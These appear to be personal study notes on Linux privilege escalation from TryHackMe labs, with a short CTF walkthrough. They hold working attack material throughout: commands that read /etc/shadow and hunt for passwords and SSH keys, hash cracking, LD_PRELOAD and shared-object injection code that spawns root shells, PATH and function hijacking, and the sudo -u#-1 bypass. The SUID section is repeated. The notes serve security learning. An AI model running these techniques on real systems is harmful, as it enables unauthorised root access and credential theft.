

https://swisskyrepo.github.io/PayloadsAllTheThings/

## System Enumeration

To gather information about the system (Kernel), we can use the following command:

```bash
uname -a
```


Alternatively, we can use:

```bash
cat /proc/version
```

To check the CPU architecture, run:

```bash
lscpu
```

To see what services are running, use:

```bash
ps aux
```

## User Enumeration

To identify the current user, we can run:

```bash
id
```

To check the groups the user belongs to, run:

```bash
groups
```

To list the commands that can be run with sudo privileges, use:

```bash
sudo -l
```


We can view the user accounts in the system with:

```bash
cat /etc/passwd
```


The groups information is stored in:

```bash
cat /etc/group
```


To see the password hashes of users (if accessible), check:

```bash
cat /etc/shadow
```


A useful command for inspecting previously executed commands is:

```bash
history
```


### Essential First Steps

1. Run `whoami` to confirm the current user.
2. Run `sudo -l` to check sudo privileges.
3. Run `uname -a` for system information.
4. Run `lscpu` to check CPU architecture.
5. Run `history` to review previous commands.

## Network Enumeration

To see the machine's IP address, use one of the following commands, depending on the Linux version:

```bash
ip a
```

or

```bash
ifconfig
```

To view the network route:

```bash
ip route
```

For the ARP table:

```bash
arp -a
```

or

```bash
ip neigh
```

To see open ports and connections, use:

```bash
netstat -ano
```

## Password Hunting

To search for passwords within files across the filesystem, a handy command is:

```bash
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
```



Alternatively, to find files named "password":

```bash
locate password | more
```


To locate SSH keys, use the following commands:

```bash
find / -name id_rsa 2> /dev/null
```

or

```bash
find / -name authorized_keys 2> /dev/null
```


In this example, we successfully found an SSH key.

## Automated Tools

Here are some useful automated enumeration tools for privilege escalation:

- **[PEASS-ng (linPEAS)](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)**
- **[LinEnum](https://github.com/rebootuser/LinEnum)**
- **[Linux Exploit Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)**
- **[linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)**

Always start with `linpeas` and consider running other tools if no vulnerabilities are found. Both `linpeas` and `LinEnum` provide similar functionalities.

To check for exploitable vulnerabilities, you can use `linux-exploit-suggester`:


# Kernel Exploitation

A quick list of kernel exploits can be found here: [Kernel Exploits Repository](https://github.com/lucyoa/kernel-exploits)

First, we identify the kernel version using:

```bash
uname -a
```

After running `linux-exploit-suggester`, we identified a kernel exploit that could be used.


---

# Password & File Permissions

One of the first things to check is the command history using:

```bash
history
```

In this case, we found the root password in the command history.


We can then attempt to log in as root using this password, and it works.


Sometimes, passwords can also be stored in home directory files:


It's essential to check for access to critical files such as `/etc/passwd` and `/etc/shadow`.


If we have write access, we could modify the files directly. Since we only have read access, we can copy the contents of both files and run:

```bash
unshadow passwd shadow
```


This will create an unshadowed file that we can use for password cracking.


Next, we determine the hash type from this [Hashcat Example Hashes](https://hashcat.net/wiki/doku.php?id=example_hashes).


We then use `hashcat` to crack the password.


It's recommended to run `hashcat` on the host machine, as running it on a VM can be extremely slow.


# Escalation via SSH Keys

To locate SSH keys on the target system, we executed the following commands:

```bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
```


Upon discovering the keys, we attempted to connect via SSH using the found key for the `root` user, which was successful.

# Sudo Escalation Path

To identify potential privilege escalation paths via sudo, we can refer to [GTFOBins](https://gtfobins.github.io/), a resource that details various methods for exploiting programs.

Additionally, for hands-on practice with privilege escalation techniques, the following TryHackMe room is beneficial: [Privilege Escalation Playground](https://tryhackme.com/room/privescplayground).

If a program is not listed on GTFOBins, we can always search online to explore any intended functionalities that may allow privilege escalation.

# Escalation via LD_PRELOAD

One common vulnerability occurs when the `LD_PRELOAD` variable is visible in the output of `sudo -l`.


To exploit this, we can write a simple C program to spawn a shell:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");   
}
```

After compiling the program with the following command:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

We can then load `shell.so` as `LD_PRELOAD` to gain root access by executing any command that can run with root privileges:

```bash
sudo LD_PRELOAD=/home/user/shell.so apache2
```

This successfully provided us with a root shell.


# Challenge 1

In this exercise, we aim to evaluate our learning by completing a box available at [TryHackMe - Easy CTF](https://tryhackme.com/r/room/easyctf).

## Initial Reconnaissance

We began with an Nmap scan, which revealed the following open ports:

```bash
21 (FTP)
80 (HTTP)
2222 (SSH)
```

## Web Server Enumeration

Next, we performed directory enumeration on the web server, which led us to a content management system (CMS) located at `/simple`. Upon investigation, we identified it as Simple CMS version 2.2.8, known to have vulnerabilities documented in [Exploit DB](https://www.exploit-db.com/exploits/46635).

## Exploitation

After executing the exploit, we successfully retrieved the following credentials: 

**Username:** mitch  
**Password:** secret


## Gaining Access

With these credentials, we attempted to gain a foothold on the vulnerable machine.


We confirmed access as the authenticated admin user and proceeded to search for a Remote Code Execution (RCE) exploit. We discovered a relevant exploit at [Rapid7](https://www.rapid7.com/db/modules/exploit/multi/http/cmsms_object_injection_rce/).

Upon executing the RCE exploit, we were successful in establishing a connection.

## Privilege Escalation

To elevate our privileges, we decided to check if we could SSH into the box using the newly acquired credentials (`mitch:secret`).

The SSH login was successful, allowing us to explore this avenue before attempting privilege escalation with the `www-data` user.


During our exploration, we noted that we could run `vim` with sudo privileges without a password. We proceeded to execute this command to elevate our privileges.


We successfully rooted the box, demonstrating our understanding of the exploitative processes involved in this exercise. 

# Interesting Exploit with Sudo

## Vulnerability Related to [(ALL, !root) /bin/bash]

In cases where we cannot explicitly run `/bin/bash` as root, there exists an exploit detailed in [Exploit DB](https://www.exploit-db.com/exploits/47502).

When running `sudo -l`, we observed the following permissions:

```bash
User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash
```

This indicates that the user `hacker` can execute `/bin/bash` with sudo, but not directly as root. To exploit this, we can use the following command:

```bash
sudo -u#-1 /bin/bash
```

## Vulnerability Related to pwfeedback

In certain versions of `sudo`, if the `pwfeedback` option is enabled, this vulnerability can be exploited. More details can be found on [CVE-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634).

To check if the `pwfeedback` option is active, we can execute the following command:

```bash
sudo sudo [any command]
```

If the `pwfeedback` option is enabled, it may reveal a potential path for privilege escalation.

# Escalation path with SUID

Command to find all executable with SUID for this user

```bash
find / -perm -u=s -type f 2> /dev/null
```

```bash
find / -perm -04000 -ls 2> /dev/null
```


## Shared Object Injection

```bash
strace /usr/local/bin/suid-so 2&>1 | grep -i -E "open|access|no such file"
```


Malicious code

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        system("cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p");
}
```


```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so libcal.c 
```


## Escalation via Environmental Variable

To look at enviromnetal variable 

```bash
env
```


```bash
strings /usr/local/bin/suid-env
```


```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
```

After

```bash
export PATH=/tmp:$PATH
```

```bash
/usr/local/bin/suid-env
```


This works if the command dont call the executableby the full path , but if a executable is called but a full path like this 


We need to do another thing 

```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }

export -f /usr/sbin/service
```


And like this we can get a shell as the SUID user

---

# Escalation Path Using SUID

## Finding Executables with SUID

To find all executables with the SUID bit set for the current user, you can use the following commands:

```bash
find / -perm -u=s -type f 2> /dev/null
```

Alternatively:

```bash
find / -perm -04000 -ls 2> /dev/null
```


## Shared Object Injection

To identify potential vulnerabilities, you can trace the system calls of a SUID executable with `strace`:

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```


### Malicious Code Example

Here's an example of malicious C code that copies `/bin/bash` to `/tmp`, grants it SUID permissions, and executes it with elevated privileges:

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p");
}
```


Compile the malicious code into a shared object:

```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so libcal.c 
```


## Escalation via Environmental Variables

To inspect environment variables:

```bash
env
```


Check for any hard-coded paths or exploitable functions in the SUID executable using ```strings```:

```bash
strings /usr/local/bin/suid-env
```


You can inject malicious code by compiling and placing it in a directory that will be before the real executable in the ```PATH``` variable:

```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
```

Afterwards, modify the `PATH` to prioritize the injected code:

```bash
export PATH=/tmp:$PATH
```

Execute the vulnerable SUID binary:

```bash
/usr/local/bin/suid-env
```


This method works when the command doesn't call executables by their full path. However, if the full path is used, such as:


### Function Injection

In cases where a full path is used, we need to define a function to override the behavior:

```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }

export -f /usr/sbin/service
```


By doing this, you can gain a shell with the SUID user's privileges.
